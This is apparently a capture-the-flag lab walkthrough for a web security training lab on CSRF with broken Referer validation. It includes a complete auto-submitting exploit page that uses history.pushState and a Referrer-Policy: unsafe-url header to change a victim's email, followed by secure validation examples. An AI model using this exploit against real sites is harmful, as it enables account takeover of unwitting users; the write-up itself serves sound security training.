

---

**Difficulty:** 🟡 Practitioner

**Goal:**

- 🔍 Identify CSRF vulnerability with Referer header validation
- 🎯 Understand how Referer validation is supposed to work
- 🔧 Discover that validation only checks for substring presence
- 💉 Bypass validation by including target domain in query string
- 🌐 Use history.pushState() to manipulate Referer header
- 📡 Set Referrer-Policy: unsafe-url to prevent header stripping
- 🚀 Use exploit server to host CSRF attack
- 🎪 Auto-submit form to change victim's email
- 🚨 Bypass weak Referer validation via substring injection
- 🎉 Complete lab successfully

---

## 🧠 **Concept Recap**

> **CSRF with broken Referer validation** exploits a common implementation flaw where developers check if the Referer header "contains" the target domain, rather than validating that the request actually originated FROM that domain. By appending the target domain as a query string parameter in the attacker's URL, the Referer header will contain the expected domain substring — satisfying the weak validation check — while the request still originates from the attacker's site. Combined with `Referrer-Policy: unsafe-url` to prevent browser stripping of the query string, this bypass defeats Referer-based CSRF protection entirely.

### 📊 **The Vulnerability**

**How Referer validation is supposed to work:**

```r
Legitimate request from target site:
POST /my-account/change-email HTTP/2
Host: target.com
Referer: https://target.com/my-account
                    ↑
         Request came FROM target.com

Server validation (SECURE):
1. Extract Referer header
2. Parse as URL → get origin/host
3. Compare: referer_origin == "target.com"?
4. If YES → Accept ✓
5. If NO → Reject ✓

Result:
└── Cross-site requests blocked ✓
    └── Only same-origin requests accepted ✓

CSRF attack (BLOCKED):
POST /my-account/change-email HTTP/2
Host: target.com
Referer: https://attacker.com/exploit.html
                    ↑
         Request came FROM attacker.com

Server sees: referer_origin != "target.com"
└── Request rejected! ✓ CSRF prevented!
```

**How broken Referer validation works:**

```HTTP
Vulnerable validation (INSECURE):
if (referer.contains("target.com")) {
    accept();  // ← Substring check only! 💣
} else {
    reject();
}

The flaw:
└── Uses .contains() or .indexOf() check
    └── Only verifies substring is SOMEWHERE in header
        └── Doesn't validate actual origin! ❌

Bypass technique:
Referer: https://attacker.com/?target.com
                                ↑
                    Target domain in query string!

Server validation:
1. Check: referer.contains("target.com")
2. "https://attacker.com/?target.com" contains "target.com"? 
3. YES! ✓ → Accept request
4. ❌ But request came from attacker.com!

Result:
└── Substring found → Validation passes ✓
    └── But origin is still attacker site! 💣
        └── CSRF successful! 💥
```

**Browser Referer stripping problem:**

```HTTP
Modern browser behavior:
└── Privacy protection: strip query strings from Referer
    └── Default Referrer-Policy: strict-origin-when-cross-origin
        └── Cross-origin requests: query string removed! ⚠️

Exploit without Referrer-Policy header:
Attacker page: https://exploit-server.net/?target.com

Browser would send:
Referer: https://exploit-server.net/
                                    ↑
                    Query string STRIPPED! ❌

Server validation:
└── "https://exploit-server.net/" contains "target.com"?
    └── NO! ❌ → Rejected!

Attack fails! ✓ (Browser security feature works)

Bypass with Referrer-Policy: unsafe-url:
HTTP response header:
Referrer-Policy: unsafe-url
                 ↑
    Tell browser: include FULL URL in Referer

Browser now sends:
Referer: https://exploit-server.net/?target.com
                                     ↑
                    Query string INCLUDED! ✓

Server validation:
└── "https://exploit-server.net/?target.com" contains "target.com"?
    └── YES! ✓ → Accepted!

Attack succeeds! 💥
```

**Using history.pushState() to manipulate Referer:**

```JavaScript
Why history.pushState() is needed:

Normal form submission:
<form action="https://target.com/change-email">
Browser sends:
  Referer: https://exploit-server.net/
           └── Current page URL (no query string)

Problem:
└── Need target domain in Referer
    └── Must be in exploit page URL
        └── But exploit server URL doesn't contain target domain! ❌

Solution: Change browser's current URL
history.pushState("", "", "/?target.com");
                           ↑
               Append target domain to current URL

Result:
└── Browser's address bar changes to:
    https://exploit-server.net/?target.com
    
└── Form submission now sends:
    Referer: https://exploit-server.net/?target.com
                                         ↑
                            Target domain included! ✓

Why this works:
└── history.pushState() updates browser's current location
    └── Without reloading the page
        └── Form thinks current URL is: /?target.com
            └── Referer header reflects this! ✓
```

**Full attack flow:**

```HTTP
Step 1: Attacker creates exploit page
Host: exploit-server.net
Content:
  <html>
    <body>
      <form action="https://target.com/change-email" method="POST">
        <input name="email" value="attacker@evil.com">
      </form>
      <script>
        history.pushState("", "", "/?target.com");
        document.forms[0].submit();
      </script>
    </body>
  </html>

Response headers:
  Referrer-Policy: unsafe-url

         ↓

Step 2: Victim visits exploit page
GET https://exploit-server.net/

         ↓

Step 3: JavaScript executes
history.pushState("", "", "/?target.com");
└── Browser URL becomes: https://exploit-server.net/?target.com

         ↓

Step 4: Form auto-submits
POST /my-account/change-email
Host: target.com
Cookie: session=VICTIM_SESSION
Referer: https://exploit-server.net/?target.com
                                     ↑
                         Query string included (unsafe-url policy)

Body: email=attacker@evil.com

         ↓

Step 5: Server validates Referer
if (referer.contains("target.com")) {  // Broken validation
    // "https://exploit-server.net/?target.com" contains "target.com"?
    // YES! ✓
    processEmailChange();  // ← Accepts request!
}

         ↓

Step 6: Victim's email changed
FROM: victim@example.com
TO: attacker@evil.com
         ↓

Attack successful! 💥
```

**Key Insight:**

```r
Why this bypass works — three factors aligning:

1. Weak Referer validation (substring check):
   └── Server uses: referer.contains("target.com")
       └── Not: referer.startsWith("https://target.com")
           └── Substring can appear anywhere! 💣

2. Query string injection:
   └── Attacker can append: ?target.com to exploit URL
       └── Query string becomes part of Referer header
           └── Validation sees substring → passes ✓

3. Referrer-Policy: unsafe-url:
   └── Without it: browsers strip query strings (privacy)
       └── With it: full URL including query string sent
           └── Attack bypass preserved in Referer! ✓

The validation mistake:
└── Developer thought: "Check if Referer contains our domain"
    └── Assumption: "If our domain is in header, request is safe"
        └── Reality: Substring can be ANYWHERE in URL
            └── Including attacker-controlled query parameters! 💣

Why .contains() is wrong:
├── .contains("target.com") matches:
│   ├── https://target.com/ ✓ (legitimate)
│   ├── https://attacker.com/?target.com ✓ (attack!)
│   ├── https://evil.com/?domain=target.com ✓ (attack!)
│   └── https://target.com.evil.com/ ✓ (attack!)
│
└── Should use .startsWith() or parse origin:
    ├── referer.startsWith("https://target.com") ✓
    └── new URL(referer).origin === "https://target.com" ✓

Real-world developer thought process:
└── "CSRF tokens are complex to implement"
    └── "Let's just check Referer header instead"
        └── "If it contains our domain name, must be from our site"
            └── "Simple substring check will work!" ✓
                └── Never tested with query string injection! ❌
                    └── Vulnerability introduced! ⚠️
```

---
---

## 🛠️ **Step-by-Step Attack**

---

### 🔧 **Step 1 — Access Lab**

1. 🌐 Click **"Access the lab"**
2. 👀 Observe the lab page
3. 📝 Note credentials: `wiener:peter`

**Lab description:**

```
Lab: CSRF with broken Referer validation

Vulnerability:
└── Email change validates Referer header
    └── But uses weak substring check
        └── Only verifies domain appears SOMEWHERE
            └── Can be bypassed via query string! 💣

Goal:
└── Use exploit server to change victim's email
    └── By injecting target domain in query string
        └── And setting Referrer-Policy: unsafe-url 🎯

Challenge:
└── Referer validation exists (not like previous labs)
    └── Must find weakness in validation logic
        └── Bypass using substring injection! 💣
```

---

### 🔐 **Step 2 — Login to Account**

1. 🖱️ Click **"My account"**
2. 📝 Enter credentials:
    - Username: `wiener`
    - Password: `peter`
3. 🚀 Click **"Login"**

**After login:**

```
┌────────────────────────────────────┐
│ My Account                         │
├────────────────────────────────────┤
│                                    │
│ Username: wiener                   │
│                                    │
│ Email: wiener@normal-user.net      │
│                                    │
│ Update email:                      │
│ [____________________________]     │
│                                    │
│ [Update email]                     │
│                                    │
└────────────────────────────────────┘
```

---

### 📨 **Step 3 — Capture Email Change Request**

1. ✏️ Enter test email: `test@example.com`
2. 🚀 Click **"Update email"**
3. 👀 Find the request in Burp **Proxy → HTTP History**

**Intercepted POST request:**

```HTTP
POST /my-account/change-email HTTP/2
Host: 0abc1234def5678.web-security-academy.net
Cookie: session=xYz9KpLm3jN8qR5wV2tF7hG4sD1aB6cE
Referer: https://0abc1234def5678.web-security-academy.net/my-account
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

email=test%40example.com
```

**Analysis — Referer header present:**

```HTTP
Key observations:

1. Referer header included:
   Referer: https://0abc1234def5678.web-security-academy.net/my-account
   └── Browser automatically includes this
       └── Shows where request came from

2. No CSRF token in request:
   └── Body only contains: email=test@example.com
       └── No token parameter anywhere!
           └── Suggests Referer-based protection ⚠️

3. Server likely validates Referer:
   └── Checks if request came from same domain
       └── Expected protection against CSRF
           └── But how STRONG is the validation? 🤔

Next step:
└── Test what happens with different Referer values
    └── Find weakness in validation logic! 🎯
```

---

### 🔄 **Step 4 — Send to Burp Repeater**

1. 🖱️ **Right-click** on the email change request
2. 📋 Select **"Send to Repeater"**
3. 📑 Switch to **"Repeater"** tab

---

### 🧪 **Step 5 — Test Referer Validation**

**Test 1: Change Referer domain completely**

1. ✏️ Modify the Referer header in Repeater:

```HTTP
BEFORE:
Referer: https://0abc1234def5678.web-security-academy.net/my-account

         ↓ Change domain to arbitrary value ↓

AFTER:
Referer: https://attacker.com/exploit
```

2. 🚀 Click **"Send"**
3. 👀 Observe response

**Expected response:**

```HTTP
HTTP/2 400 Bad Request
Content-Type: text/html

Invalid Referer header
```

**Analysis:**

```
✅ Server validates Referer header!
✅ Rejects requests from different domains!
❌ Direct cross-domain attack blocked!

Server is checking:
└── If Referer doesn't match expected domain
    └── Request is rejected
        └── But HOW does it check? 🤔
```

---

### 🔎 **Step 6 — Test Substring Bypass**

**Test 2: Add target domain as query string**

1. ✏️ Modify Referer to include target domain in query:

```HTTP
Construct bypass Referer:
Base attacker domain: https://attacker.com
Add query string: ?0abc1234def5678.web-security-academy.net

REFERER TEST:
Referer: https://attacker.com?0abc1234def5678.web-security-academy.net
```

2. 🚀 Click **"Send"**
3. 👀 Observe response

**Expected response:**

```HTTP
HTTP/2 302 Found
Location: /my-account

Email updated!
```

**VULNERABILITY CONFIRMED!**

```
🎯 Critical Discovery:

✅ Request accepted with target domain in query string!
✅ Email changed successfully!
❌ Server only checks if domain appears SOMEWHERE!
❌ Weak substring validation!

Server validation logic (broken):
if (referer.contains("0abc1234def5678.web-security-academy.net")) {
    accept();  // ← Only checks substring presence! 💣
}

Why this is vulnerable:
└── referer.contains() matches ANY occurrence
    ├── https://target.com/ ✓ (legitimate)
    ├── https://attacker.com?target.com ✓ (bypass!)
    ├── https://evil.com/?domain=target.com ✓ (bypass!)
    └── https://target.com.evil.com/ ✓ (bypass!)

Attack is now possible:
└── Craft exploit page URL with target domain in query
    └── Referer will contain expected substring
        └── Validation passes → CSRF succeeds! 💥
```

---

### 📝 **Step 7 — Understand Referrer-Policy Requirement**

**Modern browser privacy protection:**

```HTTP
Browser default behavior:
└── Referrer-Policy: strict-origin-when-cross-origin
    └── Cross-origin requests: strip query strings
        └── Only send origin, not full URL

Example:
Attacker page: https://exploit-server.net/?target.com
              
Without Referrer-Policy override:
Browser sends: Referer: https://exploit-server.net/
                                                   ↑
                                   Query string REMOVED!

Server validation:
└── "https://exploit-server.net/" contains "target.com"?
    └── NO! ❌ → Rejected!

Attack fails due to browser privacy feature! ✓

Solution: Override with unsafe-url policy
Response header: Referrer-Policy: unsafe-url
                 └── Tells browser: send FULL URL

With Referrer-Policy: unsafe-url:
Browser sends: Referer: https://exploit-server.net/?target.com
                                                    ↑
                                    Query string INCLUDED! ✓

Server validation:
└── "https://exploit-server.net/?target.com" contains "target.com"?
    └── YES! ✓ → Accepted!

Attack succeeds! 💥
```

---

### 🌐 **Step 8 — Access Exploit Server**

1. 🔙 Go back to lab page
2. 🖱️ Click **"Go to exploit server"**

**Exploit server interface:**

```
┌────────────────────────────────────────────────────────┐
│ Exploit Server                                         │
├────────────────────────────────────────────────────────┤
│                                                        │
│ Response headers:                                      │
│ HTTP/1.1 200 OK                                        │
│ Content-Type: text/html; charset=utf-8                 │
│                                                        │
│ Body:                                                  │
│ [______________________________________]               │
│ [______________________________________]               │
│                                                        │
│ [Store] [View exploit] [Deliver exploit to victim]     │
└────────────────────────────────────────────────────────┘
```

---

### 📝 **Step 9 — Create the Exploit HTML**

**First, modify the Response headers field in exploit server add this `Referrer-Policy: unsafe-url` to Head field because if we store the exploit and test it by clicking "View exploit", you may encounter the "invalid Referer header" error. This is because many browsers now strip the query string from the Referer header by default as a security measure.**

```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Referrer-Policy: unsafe-url
```

**Then, paste into Body field:**

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a9400d103abed0680be032d00fb0068.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/?0a9400d103abed0680be032d00fb0068.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

**⚠️ CRITICAL: Replace `0abc1234def5678` with YOUR lab ID!**

**Full exploit anatomy:**

```html
<!-- THE FORM -->
<html>
  <body>
    <form action="https://[LAB-ID].web-security-academy.net/my-account/change-email" 
          method="POST">
      
      Form attributes:
      ├── action="..." → Target endpoint
      └── method="POST" → HTTP method

      <input type="hidden" name="email" value="hacker@evil.com">
      
      Input field:
      ├── type="hidden" → Invisible to user
      ├── name="email" → Required parameter
      └── value="..." → Attacker's email

    </form>

    <!-- THE EXPLOIT SCRIPT -->
    <script>
      // Step 1: Manipulate browser history to include target domain
      history.pushState("", "", "/?[LAB-ID].web-security-academy.net");
      
      What this does:
      ├── Changes browser's current URL
      ├── From: https://exploit-server.net/
      ├── To: https://exploit-server.net/?[LAB-ID].web-security-academy.net
      └── WITHOUT reloading the page! ✓
      
      Why this matters:
      └── Form submission will use THIS as Referer
          └── Referer will contain target domain in query string
              └── Validation will see substring → pass! ✓

      // Step 2: Auto-submit the form
      document.forms[0].submit();
      
      What this does:
      └── Submits first form on page immediately
          └── Victim doesn't see or click anything
              └── Attack is invisible! ✓
    </script>
  </body>
</html>

<!-- THE RESPONSE HEADERS (separate field) -->
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Referrer-Policy: unsafe-url
                 ↑
    CRITICAL: Without this, query string stripped!

Why Referrer-Policy: unsafe-url is essential:
├── Default browser behavior: strip query strings
├── Our bypass relies on: target domain IN query string
├── Without unsafe-url: browser strips ?[LAB-ID]...
├── Referer becomes: https://exploit-server.net/
├── Server validation fails: no target domain found
└── With unsafe-url: full URL sent including query
    └── Referer includes: ?[LAB-ID].web-security-academy.net
        └── Validation passes! ✓

Execution flow:
1. Victim visits exploit page
2. HTML loads (form invisible)
3. JavaScript executes immediately:
   a. history.pushState() changes URL
   b. Browser thinks current page is: /?[LAB-ID]...
4. Form submits automatically
5. Browser sends POST with:
   ├── Cookie: victim's session
   ├── Referer: https://exploit-server.net/?[LAB-ID]...
   └── Body: email=hacker@evil.com
6. Server validates:
   └── Referer contains "[LAB-ID].web-security-academy.net"? YES ✓
       └── Accept request!
7. Email changed! 💥
```

---

### 💾 **Step 10 — Store and Test Exploit on Yourself**

1. 💾 Click **"Store"**
2. 👁️ Click **"View exploit"**

**What happens in your browser:**

```js
Exploit page loads:
         ↓
HTML renders:
  ├── Form created (invisible to user)
  └── JavaScript executes

         ↓
JavaScript Step 1:
  history.pushState("", "", "/?0abc1234def5678.web-security-academy.net");
  
  Browser's address bar changes to:
  https://exploit-XXXXX.exploit-server.net/?0abc1234def5678.web-security-academy.net
  
  Note: Page doesn't reload! Just URL changes visually.

         ↓
JavaScript Step 2:
  document.forms[0].submit();
  
  Form submits immediately!

         ↓
Browser sends POST request:
  POST /my-account/change-email HTTP/2
  Host: 0abc1234def5678.web-security-academy.net
  Cookie: session=YOUR_SESSION
  Referer: https://exploit-XXXXX.exploit-server.net/?0abc1234def5678.web-security-academy.net
                                                      ↑
                                      Target domain in query string! ✓
  
  Body: email=hacker@evil.com

         ↓
Server validates Referer:
  if (referer.contains("0abc1234def5678.web-security-academy.net")) {
      // "https://exploit-.../?0abc1234def5678.web-security-academy.net"
      // Contains "0abc1234def5678.web-security-academy.net"?
      // YES! ✓
      processEmailChange();
  }

         ↓
Email changed:
  FROM: wiener@normal-user.net
  TO: hacker@evil.com

         ↓
Browser redirects to /my-account:
  ├── Shows account page
  ├── Email now displays: hacker@evil.com
  └── Attack successful! ✓
```

**Verification:**

```
Check My Account page:
┌────────────────────────────────────┐
│ My Account                         │
├────────────────────────────────────┤
│                                    │
│ Username: wiener                   │
│                                    │
│ Email: hacker@evil.com ← Changed!  │
│                                    │
└────────────────────────────────────┘

✅ Exploit works end-to-end!
✅ Referer validation bypassed!
✅ history.pushState() manipulation successful!
✅ Referrer-Policy: unsafe-url preserved query string!
💡 But your email is now taken — update before delivering!
```

---

### 🔄 **Step 11 — Update Email for Victim Delivery**

**Important:** Use a different email address!

1. 🔙 Go back to exploit server
2. ✏️ Change the email value in the Body field:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a9400d103abed0680be032d00fb0068.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test123&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/?0a9400d103abed0680be032d00fb0068.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

3. 💾 Click **"Store"**

**Why different email:**

```
Problem:
└── Already used hacker@evil.com on your account
    └── That email is now "taken"
        └── Victim's change would fail (duplicate email)

Solution:
└── Use fresh unused email for victim
    ├── pwned@attacker.com
    ├── compromised@evil.com
    └── Or any email not already in use

This ensures victim's email change succeeds! ✓
```

---

### 🎯 **Step 12 — Deliver Exploit to Victim**

1. 🚀 Click **"Deliver exploit to victim"**
2. ⏳ Wait for confirmation

**Attack execution against victim:**

```r
Lab simulation starts:
         ↓
1. Simulated victim (Carlos) is logged in
   └── Has valid session cookie
   
2. Victim visits your exploit URL
   └── https://exploit-XXXXX.exploit-server.net/
   
3. Exploit page loads in victim's browser
   
   Response includes:
   └── Referrer-Policy: unsafe-url ← Critical header!
   
         ↓
4. HTML loads:
   ├── Form element created (invisible)
   └── JavaScript in <script> tag executes
   
         ↓
5. JavaScript Step 1 executes:
   history.pushState("", "", "/?0abc1234def5678.web-security-academy.net");
   
   Browser's current URL changes to:
   https://exploit-XXXXX.exploit-server.net/?0abc1234def5678.web-security-academy.net
   
   Note: Victim doesn't notice URL change (no page reload)
   
         ↓
6. JavaScript Step 2 executes:
   document.forms[0].submit();
   
   Form submits automatically!
   
         ↓
7. Browser sends POST request:
   POST /my-account/change-email HTTP/2
   Host: 0abc1234def5678.web-security-academy.net
   Cookie: session=VICTIM_SESSION ← Victim's session!
   Referer: https://exploit-XXXXX.exploit-server.net/?0abc1234def5678.web-security-academy.net
                                                       ↑
                                       Query string INCLUDED (due to unsafe-url policy)
   
   Body: email=pwned@attacker.com
   
         ↓
8. Server receives and validates:
   
   Referer validation logic:
   if (referer.contains("0abc1234def5678.web-security-academy.net")) {
       // Check: Does Referer contain target domain substring?
       // Input: "https://exploit-XXXXX.exploit-server.net/?0abc1234def5678.web-security-academy.net"
       // Contains: "0abc1234def5678.web-security-academy.net"
       // Result: YES! ✓
       
       // Accept request!
       updateEmail("pwned@attacker.com");
   }
   
         ↓
9. Email changed in database:
   └── FROM: carlos@...
   └── TO: pwned@attacker.com
   
         ↓
10. Response sent:
    HTTP/2 302 Found
    Location: /my-account
    
         ↓
11. Lab validation:
    └── Checks if victim's email was modified ✓
    └── Lab solved! 🎉
```

---

### ✅ **Step 13 — Lab Completion**

**Success banner:**

```
┌─────────────────────────────────────┐
│  ✅ Congratulations!                │
│                                     │
│  You successfully bypassed          │
│  Referer-based CSRF validation      │
│  using substring injection and      │
│  Referrer-Policy manipulation.      │
│                                     │
│  Lab: CSRF with broken Referer      │
│       validation                    │
│  Status: SOLVED ✓                   │
└─────────────────────────────────────┘
```

---

## 🔗 **Complete Attack Chain**

```r
Step 1: Access lab and login
         → wiener:peter
         ↓
Step 2: Navigate to My Account
         → Update email functionality
         ↓
Step 3: Capture email change request
         → POST /my-account/change-email
         → Referer: https://target.com/my-account
         → No CSRF token in body!
         → Suggests Referer-based protection
         ↓
Step 4: Send to Repeater
         ↓
Step 5: Test Referer validation
         → Change Referer to: https://attacker.com
         → Send request
         → 400 Bad Request: "Invalid Referer header"
         → Validation exists! ✓
         ↓
Step 6: Test substring bypass
         → Change Referer to: https://attacker.com?target.com
         → Send request
         → 302 Found → Email changed! ✓
         → Weak substring validation confirmed! 💣
         ↓
Step 7: Understand Referrer-Policy need
         → Modern browsers strip query strings by default
         → Need Referrer-Policy: unsafe-url to preserve query
         → Without it: browser sends only origin
         → With it: browser sends full URL with query ✓
         ↓
Step 8: Create exploit
         → Add Referrer-Policy: unsafe-url to headers
         → Create form with target action and email
         → Use history.pushState() to add target domain to URL
         → Auto-submit form
         ↓
Step 9: Store and test on yourself
         → View exploit
         → JavaScript manipulates URL
         → Form submits with correct Referer
         → Email changed ✓
         ↓
Step 10: Update email for victim
          → Use different unused email
          → Store again
         ↓
Step 11: Deliver to victim
          → Click "Deliver exploit to victim"
          → Victim's browser executes JavaScript
          → Referer includes target domain in query
          → Server validation passes (substring found)
          → Victim's email changed! 💥
         ↓
Step 12: Lab solved! 🎉
```

---

## ⚙️ **Understanding the Vulnerability**

### **How Referer Header Works**

```r
What is the Referer header?

Definition:
└── HTTP header that indicates the URL of the page
    └── That linked to or submitted a form to the current page
        └── Automatically set by the browser

Example navigation:
User on: https://example.com/page1.html
Clicks link to: https://example.com/page2.html

Browser sends:
  GET /page2.html HTTP/1.1
  Host: example.com
  Referer: https://example.com/page1.html
           ↑
   Browser says: "User came FROM page1.html"

Form submission:
User on: https://bank.com/transfer-form
Submits form to: https://bank.com/process-transfer

Browser sends:
  POST /process-transfer HTTP/1.1
  Host: bank.com
  Referer: https://bank.com/transfer-form
           ↑
   Browser says: "Form submission came FROM transfer-form page"

Cross-origin request:
User on: https://attacker.com/exploit.html
Page submits form to: https://bank.com/process-transfer

Browser sends:
  POST /process-transfer HTTP/1.1
  Host: bank.com
  Referer: https://attacker.com/exploit.html
           ↑
   Browser says: "Request came FROM attacker.com"

How Referer should be used for CSRF protection:
└── Server checks: "Did this request come from MY domain?"
    if (referer.startsWith("https://bank.com")) {
        accept();  // ✓ Same origin
    } else {
        reject();  // ✓ Cross-site attack
    }

Why this works:
└── Attacker cannot forge Referer header from JavaScript
    └── Browser sets it automatically
        └── Based on actual page origin
            └── Cannot be manipulated by attacker... or can it? 🤔
```

---

### **Common Referer Validation Mistakes**

```r
// ❌ VULNERABLE - Substring check anywhere
function validateReferer(referer) {
    if (referer.includes("target.com")) {
        return true;  // Accepts ANY occurrence!
    }
    return false;
}

Why this is wrong:
└── Matches ALL of these:
    ├── https://target.com/ ✓ (legitimate)
    ├── https://attacker.com?target.com ✓ (bypass!)
    ├── https://target.com.evil.com/ ✓ (bypass!)
    └── https://evil.com/?domain=target.com ✓ (bypass!)

// ❌ VULNERABLE - Regex without anchors
function validateReferer(referer) {
    if (/target\.com/.test(referer)) {
        return true;
    }
    return false;
}

Same problem:
└── Pattern matches anywhere in string
    └── https://attacker.com?target.com → Match! ✓


// ✅ SECURE - Origin-based validation
function validateReferer(referer) {
    try {
        const url = new URL(referer);
        return url.origin === "https://target.com";
    } catch {
        return false;
    }
}

Why this is correct:
└── Parses Referer as URL
    └── Extracts actual origin (protocol + host)
        ├── https://target.com/ → origin: "https://target.com" ✓
        ├── https://attacker.com?target.com → origin: "https://attacker.com" ❌
        └── Only accepts legitimate origin! ✓


// ✅ SECURE - StartsWith check
function validateReferer(referer) {
    const expectedOrigin = "https://target.com";
    return referer.startsWith(expectedOrigin + "/");
}

Why this works:
└── Checks if Referer STARTS with expected origin
    ├── https://target.com/page → Starts with? YES ✓
    ├── https://attacker.com?target.com → Starts with? NO ❌
    ├── https://target.com.evil.com/ → Starts with? NO ❌
    └── Only legitimate origin matches! ✓

Subtle bug to avoid:
└── Without the trailing slash:
    referer.startsWith("https://target.com")
    
    Could match:
    ├── https://target.com/ ✓
    └── https://target.com.evil.com/ ✓ (subdomain attack!)
    
    Always append "/" to prevent:
    referer.startsWith("https://target.com/")
    └── https://target.com.evil.com/ → NO ❌


// ✅ SECURE - Whitelist approach
function validateReferer(referer) {
    const allowedOrigins = [
        "https://target.com",
        "https://www.target.com",
        "https://app.target.com"
    ];
    
    try {
        const url = new URL(referer);
        return allowedOrigins.includes(url.origin);
    } catch {
        return false;
    }
}

Benefits:
✅ Explicitly whitelists allowed origins
✅ No substring matching ambiguity
✅ Easy to add/remove trusted domains
✅ Most secure approach! 🛡️
```

---

### **history.pushState() Explanation**

```r
What is history.pushState()?

Definition:
└── JavaScript API to manipulate browser history
    └── Without reloading the page
        └── Changes URL in address bar

Syntax:
history.pushState(state, title, url);
├── state: Object to store with this history entry
├── title: Title for the entry (mostly ignored by browsers)
└── url: New URL to display (must be same origin)

Example:
// Current URL: https://example.com/page1
history.pushState({}, "", "/page2");
// New URL: https://example.com/page2
// Page content: UNCHANGED (no reload)
// Address bar: Updated visually

Why this matters for Referer:
└── Form submission uses CURRENT URL as Referer
    └── If we change current URL before submission
        └── Referer will reflect the NEW URL! ✓

Attack usage:
// Exploit page URL: https://exploit-server.net/
history.pushState("", "", "/?target.com");
// URL becomes: https://exploit-server.net/?target.com

document.forms[0].submit();
// Form submits with Referer: https://exploit-server.net/?target.com
//                                                         ↑
//                                           Target domain in query! ✓

Why attacker can control this:
├── pushState() works on same origin
│   └── Exploit page can modify its own URL
├── Query string is part of the URL
│   └── Becomes part of Referer header
└── Server only checks substring
    └── Sees target domain → accepts! ✓

Limitations:
└── Cannot change to different origin:
    history.pushState("", "", "https://target.com/")
    └── Browser error: Cannot manipulate cross-origin history ❌

└── Can only modify:
    ├── Path: history.pushState("", "", "/different-path")
    ├── Query: history.pushState("", "", "?param=value")
    └── Hash: history.pushState("", "", "#section")

Why query string is perfect for bypass:
└── Within same origin (allowed)
    └── Becomes part of URL (included in Referer)
        └── Can contain target domain (passes validation)
            └── Three requirements met! ✓
```

---

### **Referrer-Policy Header**

```r
What is Referrer-Policy?

Definition:
└── HTTP response header that controls
    └── How much referrer information is sent
        └── With subsequent requests from the page

Values and their effects:

Referrer-Policy: no-referrer
├── Effect: NO Referer header sent at all
├── Privacy: Maximum ✓
└── Use case: Very privacy-sensitive pages

Referrer-Policy: no-referrer-when-downgrade (default)
├── Effect: Full URL sent for HTTPS → HTTPS
├── Effect: No Referer for HTTPS → HTTP
└── Privacy: Medium

Referrer-Policy: origin
├── Effect: Only origin sent (no path/query)
├── Example: https://example.com/page?q=test
│            → Referer: https://example.com/
└── Privacy: High

Referrer-Policy: origin-when-cross-origin
├── Effect: Full URL for same-origin
├── Effect: Only origin for cross-origin
└── Privacy: Balanced

Referrer-Policy: strict-origin
├── Effect: Only origin sent (always)
├── Effect: No Referer for HTTPS → HTTP
└── Privacy: High

Referrer-Policy: strict-origin-when-cross-origin (modern default)
├── Effect: Full URL for same-origin
├── Effect: Only origin for cross-origin
├── Effect: No Referer for HTTPS → HTTP
└── Privacy: Balanced (recommended)

Referrer-Policy: same-origin
├── Effect: Full URL for same-origin
├── Effect: No Referer for cross-origin
└── Privacy: High

Referrer-Policy: unsafe-url (THIS LAB!)
├── Effect: FULL URL always sent
├── Effect: Includes path, query, fragment
├── Example: https://example.com/page?secret=123
│            → Referer: https://example.com/page?secret=123
│            (Exposes query parameters!)
├── Privacy: NONE ❌
└── Use case: This CSRF bypass attack! 💣

Why unsafe-url is needed for attack:

Modern browser default:
└── strict-origin-when-cross-origin
    └── Cross-origin requests: strip query string
        └── Only send origin

Exploit without unsafe-url:
Exploit URL: https://exploit-server.net/?target.com
Browser sends: Referer: https://exploit-server.net/
                                                   ↑
                                   Query STRIPPED!

Server validation:
└── "https://exploit-server.net/" contains "target.com"?
    └── NO! ❌ → Rejected!

Exploit WITH unsafe-url:
Response includes: Referrer-Policy: unsafe-url

Exploit URL: https://exploit-server.net/?target.com
Browser sends: Referer: https://exploit-server.net/?target.com
                                                    ↑
                                    Query INCLUDED!

Server validation:
└── "https://exploit-server.net/?target.com" contains "target.com"?
    └── YES! ✓ → Accepted!

Why attacker can set this:
└── Attacker controls exploit server
    └── Can set any response headers
        └── Including Referrer-Policy
            └── Browser obeys policy from THAT page
                └── Form submission inherits policy! ✓

Real-world note:
└── "unsafe-url" is named that way for a reason!
    └── Exposes potentially sensitive info in Referer
        └── Should NEVER be used in production
